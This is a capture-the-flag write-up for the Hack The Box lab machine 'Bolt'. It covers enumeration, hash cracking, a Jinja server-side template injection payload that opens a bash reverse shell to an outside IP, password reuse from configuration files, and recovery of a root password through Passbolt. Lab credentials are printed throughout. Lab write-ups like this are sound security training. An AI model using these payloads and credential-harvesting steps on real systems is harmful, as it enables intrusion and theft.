


# [Bolt](https://app.hackthebox.com/machines/bolt)

```bash
nmap -p- --min-rate 10000 10.10.11.114 -Pn
```


After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80,443 10.10.11.114 -Pn 
```


From nmap scan result, I see that `passbolt.bolt.htb` domain name is resolved for port `443`.

Let's add this domain name into `/etc/hosts` file.


Let's do subdomain enumeration for `bolt.htb` via `wfuzz` command.
```bash
wfuzz -u http://10.10.11.114 -H "Host: FUZZ.bolt.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hh 30341
```


I found two subdomains being `demo` and `mail` , let's add them into `/etc/hosts` file for resolving purposes.


From http port of `passbolt.bolt.htb` application, I found `image.tar` file from `/download` endpoint.


Let's download file from this button which named as `image.tar` file.


I found `db.sqlite3` file from `a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2` directory's `layer.tar` file after extraction.


admin@bolt.htb: $1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.


I got this and crack via `hashcat` command as below.
```bash
hashcat -m 500 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```


admin@bolt.htb: deadbolt


While I try to login into `bolt.htb` from port `80`, I write this credentials and it worked.


From `41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad` directory, I found `.py` from `/app/base/routes.py` file which consist of web application, there `register_code` is leaked means `hard-coded`.


Code: XNSS-HSJW-3NGU-8XTJ


Let's create account on `demo.bolt.htb` application as below.

dr4ks@bolt.htb : Dr4ks1234


Now, I can login into `demo.bolt.htb` via this credentials which I created myself.


From this account credentials, I can login into `mail.bolt.htb` application.


I catched `SSTI` (Server-Side Template Injection) attack on `demo.bolt.htb` about data processing, so that my inputs are processed on `mail.bolt.htb`.

Let's enter `SSTI` payload into `username` input field on `Account Settings` section.


My `SSTI` payload is triggered, means calculation of `7*7` is done and equal to `49`.


Now, it's time to add reverse shell `SSTI` payload.
```bash
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.18/1337 0>&1"').read() }}
```


While clicking this `confirmation` link, I got shell.


I got reverse shell from port `1337`.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```




I found some `hard-coded` credentials from files on this machine.

`/var/www/dev/config.py` file.


Passwords are gained=>

dXUUHSW9vBpH5qRB
kreepandcybergeek

`/var/www/demo/config.py` file.


The same passwords are gained from here also.

`/var/www/roundcube/config/config.inc.php` file.


Passwords are gained=>

WXg5He2wHt4QYHuyGET


`/etc/passbolt/passbolt.php` file.


Password: rT2;jW7<eY8!dX8}pQ8%


Let's look at all the passwords which we gain.
```bash
rT2;jW7<eY8!dX8}pQ8%
WXg5He2wHt4QYHuyGET
kreepandcybergeek
dXUUHSW9vBpH5qRB
```

Let's check this passwords for `eddie` user by using `crackmapexec` binary.
```bash
crackmapexec ssh 10.10.11.114 -u "eddie" -p passwords.txt
```


eddie: rT2;jW7<eY8!dX8}pQ8%


user.txt




While I enumerate this machine via `grep` command to find password or private data.

I found `000003.log` file on `/home/eddie/.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf` directory.

I read this via `strings` command.


I take `PGP` key from here and convert this into `john` format by using `gpg2john` command.

```bash
john hash.txt --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt
```


Passphrase: merrychristmas


I login into `MySQL` database.
```bash
mysql -u passbolt -p'rT2;jW7<eY8!dX8}pQ8%' passboltdb
```

I find tokens from `authentication_tokens` table.


Let's take id of `eddie@bolt.htb`.


Let's get `token` via this user id.


Let's browse this HTTPS url.
```bash
https://passbolt.bolt.htb/setup/recover/4e184ee6-e436-47fb-91c9-dccb57f250bc/e5770ba2-8031-4643-9f2b-4892e2e3742b
```


I enter `PGP key` into here and add passphrase `merrychristmas` to get password of `root` user.


root: Z(2rmxsNW(Z?3=p/9s


root.txt

